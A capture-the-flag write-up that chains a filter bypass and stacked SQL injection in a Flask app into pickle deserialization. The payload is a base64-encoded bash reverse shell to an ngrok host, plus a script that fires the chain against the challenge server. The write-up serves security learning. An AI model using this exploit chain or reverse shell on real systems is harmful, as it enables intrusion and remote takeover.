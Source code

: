 # MOVEable ❌ (Writeup from LazyTitan33)

## Challenge Description
> ![image](https://github.com/user-attachments/assets/b9f3744a-2bc9-4a64-8a58-b5e05f6e022f)


## Approach
1. Our challenge begins with a straightforward login screen.

   ![image](https://github.com/user-attachments/assets/d45669b2-9c38-4e8b-bc3c-e9abf5925bfb)

Upon inspection, we find that the login code uses a ```DBClean``` function to sanitize input by removing certain characters, though this is far from foolproof.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

This function can be bypassed by replacing spaces with ```/**/``` and escaping the single quote with a backslash.

2. Digging further, the login function uses  [executescript](https://docs.python.org/3/library/sqlite3.html#sqlite3.Connection.executescript) rather than execute to handle user input, which opens up a vulnerability for SQL injection attacks. By exploiting this, we can run multiple SQL statements.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    print(user)
    if user:
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))
```

Interestingly, while file uploads are disabled, the `download` endpoint is open and doesn’t require authentication. This endpoint uses pickle.loads to load file data, which we can manipulate through SQL injection to execute arbitrary code. This would allow us to set up a reverse shell.

```python
@app.route('/upload', methods=['POST'])
@login_required
def upload_file():
    flash('Sorry, the administrator has temporarily disabled file upload capability.')
    return redirect(url_for('files'))
```

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

4. With pickle.loads at our disposal, we can create serialized data that will execute our payload when loaded. Here, we create a class that leverages os.system to open a reverse shell back to our machine:

```python
import base64
import pickle
import os
import requests

class serial():
    def __reduce__(self):               
        return os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNTA2NSAwPiYx|base64 -d|bash',)

code = pickle.dumps(serial())
code = base64.b64encode(code)
revshell = code.decode()
```
5. Next, we send a crafted SQL injection payload through the login route, inserting our serialized reverse shell data into the database, and then trigger the download endpoint to execute it:

```python
url = 'http://challenge.ctf.games:32766/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}
data = '''username=s&password=\\';INSERT/**/INTO/**/activesessions/**/VALUES(\\'lazytitan\\',\\'lazytitan\\',\\'time\\');INSERT/**/INTO/**/files/**/VALUES(\\'payload\\',\\'%s\\',NULL);--";''' % revshell
requests.post(url, data=data, headers=header)

url2 = 'http://challenge.ctf.games:32766/download/payload/lazytitan'
requests.get(url2)
```

5. Once the reverse shell is active, we check our sudo permissions and find that we can run all commands as root without requiring a password. A quick sudo bash gives us root access, where we find the flag:

![image](https://github.com/user-attachments/assets/16defa32-0711-41bd-94d6-167e42be516e)

`flag{ac53cd7aa8a2d1b2340a6eb4a356709e}`




   
